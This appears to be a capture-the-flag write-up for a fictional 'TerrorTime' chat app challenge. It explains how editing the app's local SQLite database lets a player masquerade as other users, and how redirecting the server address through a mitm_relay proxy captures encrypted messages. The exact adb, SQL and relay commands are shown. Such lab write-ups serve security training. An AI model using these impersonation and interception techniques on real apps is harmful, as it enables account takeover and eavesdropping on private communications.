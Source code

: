 # Task 5 - Masquerade - (Vulnerability Analysis)

*The app uses a bespoke application of the OAUTH protocol to authorize and authenticate TerrorTime users to the chat service. Our intelligence indicates that individual terrorists are provided phones with TerrorTime installed and pre-registered to them. They simply need to enter their username and secret PIN to access the chat service, which uses OAUTH behind the scenes to generate a unique token that is used for authentication. This is a non-standard way of using the protocol, but they believe it to be superior to normal password-based authentication since a unique token is used per login vs. a static password. Whether that is indeed the case is up to you to analyze and assess for possible vulnerabilities. Our forensics team recovered a deleted file from the terrorist's hard drive that may aid in your analysis.*

*Through other intelligence means, we know that the arrested terrorist is a member of one of many cells in a larger organization. He has shown no signs of someone who is acting in a leadership role -- he simply carries out orders given to him from his cell leader, who is likely relaying information from the top-level organizational leader. To uncover information from the cell leader’s conversations, we need access to their account. The messages are end-to-end encrypted, so without the leader's private key we won't be able to decrypt his messages, but we may be able to learn more about the members of the cell and the organization's structure. Analyze the client and server-side components of the authentication process and find a way to masquerade as arbitrary users without knowing their credentials. Take advantage of this vulnerability and masquerade as the cell leader. Access and review the cell leader’s relevant information stored on the server. Use this information to identify and submit the top-level organizational leader’s username and go a step further and submit a copy of the last (still encrypted) message body from the organization leader’s chat history. It’s suggested to complete task 4 before attempting this task as task 4 aids in discovering the cell leader’s identity.*


*Downloads:*

* *Authentication Program (auth_verify.pyc)*

## Solution

For this task, we need to find a vulnerability that will allow us to masquerade as Gittel in order to identify the top-level organizational leader and find their most recent sent encrypted message.

To begin, we will decompile the provided Python bytecode back into Python using an [online tool](https://python-decompiler.com). The code appears to be a testing script that verifies OAuth2 access tokens using the `/introspect` endpoint. While this endpoint does not exist on the real server, we have a better idea of how the OAuth works.

In Ghidra, if we look at the `requestAccessToken` function, we see that it is performing similar actions as the Python script but it is getting a new token using an incomplete version of the [authorization code flow](https://auth0.com/docs/flows/concepts/auth-code). To use this flow, an application needs to send the server an encoded version of a client ID and client secret. If we want to masquerade as Gittel using this, we would need her client secret. However, without her cached credentials, this is impossible. We will have to figure out a vulnerability in the authorization logic using only Natalie's cached credentials.

Let's look at how the application logs a user in once they have a token. To do this, we look at what calls `getOAuth2AccessToken`. The relevant caller is `doInBackground` belonging to `XMPPLoginTask`. Now we can see how the application logs in to the chat server.

```java
ref_00 = TerrorTimeApplication.access$000(ref);
ref_01 = ref_00.getXmppUserName();
ppSVar2 = ref_01.split("@");
...
ref_00.validateAccessToken(pCVar3);
ref_02 = XMPPTCPConnectionConfiguration.builder();
...
ref_01 = ref_03.getEncryptPin();
pbVar4 = ref_00.getOAuth2AccessToken(ref_01);
ref_07 = new String(pbVar4);
ref_02.setUsernameAndPassword(ppSVar2[0],ref_07);
```

The application uses the new access token as the password but does not use the client ID as the username. Rather, it uses the first part of the XMPP username. This explains why Natalie's client ID is in two places in the database. Since we are able to manipulate the database, we can change the XMPP username to Gittel's username and masquerade as her.

```
$ adb shell

generic_x86:/ # cd /data/data/com.badguy.terrortime/databases
generic_x86:/data/data/com.badguy.terrortime/databases # sqlite3 clientDB.db
sqlite> UPDATE clients SET xname='gittel--vhost-32@terrortime.app';
```

If we log in now using Natalie's credentials, we are presented with Gittel's account instead! However, since the app is end-to-end encrypted, we are not able to view Gittel's chat history because we have Natalie's public and private keys in the database. For this task though, we only need to identify who the top-level organizational leader is.

We see she is talking to Alice and Natalie, who she is in charge of, but also Anjali, Isabelle, and Hannah. One of them is the top-level organizational leader and the other two must be other cell leaders. If we masquerade as the these three contacts using the same vulnerability, we can create a mapping of the conversations and reason what everyone's roles are.


```
Anjali
- Isabelle
- Gittel
- Greyson
- Hannah
- Elijah

Gittel
- Alice
- Natalie
- Anjali
- Isabelle
- Hannah

Isabelle
- Gittel
- Anjali
- Hannah
- Preston
- Keily

Hannah
- Isabelle
- Gittel
- Anjali
```

We can see that Hannah is the top-level organizational leader because she exclusively talks to the other three while they talk to each other and their subordinates as well. While we cannot see Hannah's chat history, her messages must still be coming to the device so we are able to intercept them.

Normally, a tool such as Burp Suite would be ideal but it cannot capture XMPP messages. For this, we will use [mitm_relay](https://github.com/jrmdev/mitm_relay) which will let us see encrypted XMPP messages. Since we have control of the XMPP server address using the database, we can set it to our [host machine](https://developer.android.com/studio/run/emulator-networking) running the MITM which will interact with the real XMPP server as normal.

```
sqlite> UPDATE clients SET xsip='10.0.2.2';
```

```
$ /usr/local/bin/python mitm_relay.py -l 0.0.0.0 -r tcp:443:chat.terrortime.app:443 -c server.pem -k private.key
[!] Client cert/key not provided.
[!] Interception disabled! mitm_relay will run in monitoring mode only.
[+] Relay listening on tcp 443 -> chat.terrortime.app:443
[+] New client: ('127.0.0.1', 49319) -> chat.terrortime.app:443
...
S >> C [ 54.91.5.130:443 >> 127.0.0.1:49319 ] [ Mon 23 Dec 17:04:50 ] [ 2086 ]  
<message to='hannah--vhost-32@terrortime.app/chat...</forwarded></result></message>
...
```

Hannah's full encrypted conversation history is displayed in the output in JSON encoded as HTML. Each message body is within `<body>` tags. Using the last section of the output, we can use an [online tool](https://codebeautify.org/html-decode-string) to decode back to plain JSON and we have the most recent encrypted message body.

```json
{
    "messageKey": {
        "uG2WefXBkmgF3uVHFnzWHUgA9XoGms348sGn/C9Aqqo=":"AyPsTTiuatk8h0hjF4IOLINa3pRBclyZe59qh1hp9A0HFZOJy706DELFK/f6upmi+wmOQ0GL/V5Uy2IW4lDLd1Bd+5KP8dVC6LYqS9BWrwGTIpKacANUj889nOX23XoT8x/OjYXS25C57v7qCxidGB0fz63FSaQVZ2gJd5a1OL6jTi2VfXov+QmFR2TsmIwxTPQXCdH4mHWgAfgjsJni022s41PHQeTlYrEo6hOGc9IrhCoPu+0mBMSnST4dN/wlr0yq9WVERpe40AApo0nRFSxL7vR5kRhfChaB6qFJBeQgR/283hDFOxpl5LkRMdnvJN1DUHEY4xAg1OD54IFyOA==",
        "Uyc9U2Er8+NjGHYDiYp+gwQog1pGW5hdQOyAkdzzeTc=":"TE+JJygk2Bk08nkoPc910Yk5Ai0sv9pvchSo/yMFB75GXcqr+KGF80hscfssgRpF9ntmgZ8N0p/cs5xdGnX2inPNEeZqyp26TJt/NHaGnHSnPwt0rKUs4k4HUqnFIyuFz0vWlSKYeKCoYwUa+jU6PUQAUrBGFn5S+R32SQXHtUbbI1BJpMVvUavZU8G7BASH5Hp09NVkryPM9KWRGp+XCPaR1qTC7SgrVhgG0vKM2eHXebA7pR+xzTIObXsxafj2AGTKvhKkBRrrIk6fO3KGwnSkpx7rB0pq30UM5H1I08k7BpvVDhviD92TS7JvgukZ1NEX3kwxES2qq1jDk2f2TQ=="
    },
    "messageSig":"ZF7FtwVWyniuuuD+lb7/ujP+QdBw1u2i2jsgyBpyggE=",
    "message": {
        "msg":"vO+dG1BlPW6frcVYxF425denko81KIDgbBqhsvXSU+SLH/Eo4CpX7mVEOXbqywC46UUqMpQFBwLxyySzP1BeBPiarWQNV5u15xk4I1DkLf21vJOHTKR2/HeivzgmLQ92RAaSYDLcEvFBEGf9I/i0aFb7QRblECNMuVXRwfv+EWxfuANElUTZ98RvrNE9KKUd0zRPJwyYlh5yS1Gga0JSvXbWxDacpmxxGJxVpKsDBD33UAA/WTvKcvXgGRdmWE6m6QoRDflVztcnyZK3ItYWvyhN29Py1/nFG92rN2zeBg37sLJYgUCyG76dm+DDX+ma",
        "iv":"qXPwjboi8GgJyxg6CceXeA=="
    }
}
```
